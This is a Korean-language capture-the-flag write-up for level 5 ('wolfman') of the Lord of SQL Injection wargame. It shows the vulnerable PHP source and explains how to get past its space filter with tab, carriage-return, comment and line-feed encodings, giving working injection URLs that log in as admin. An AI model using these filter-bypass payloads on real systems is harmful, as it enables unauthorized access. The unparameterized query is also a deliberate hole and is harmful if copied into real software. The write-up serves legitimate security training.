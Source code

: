 Lord of SQL Injection No.5 - wolfman
=============
```

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("wolfman");
  highlight_file(__FILE__);
?>
```
위 문제에서 알 수 있는 것
-------------
preg_match로 인해 . ()가 $_GET[pw]에 들어 있으면 No Hack ~_~이 뜨면서 문제풀이에 실패하게 된다.
preg_match로 인해 공백이 $_GET[pw]에 들어 있으면 No whitespace ~_~가 뜨면서 문제풀이에 실패하게 된다.
id값에는 guest라는 값이 고정되어 있으므로 pw에 값을 넣어 조작해야한다.
DB에 저장된 id가 admin이면 문제가 풀리게 된다.

문제 풀이 법
-------------
1. 공백 우회
스페이스바 %20 대신 Tab(%09),Carrage Return(%0d),주석처리(/**/),Line Feed(%0A)등을 이용한다.
los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=123'or%09id='admin'--%09-
los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=123'or%0did='admin'--%0d-
*주의 주석처리와 LineFeed는 sql 주석처리 --%20에서는 잘 먹히지 않으니 #을 이용하여 주석처리를 해야한다.
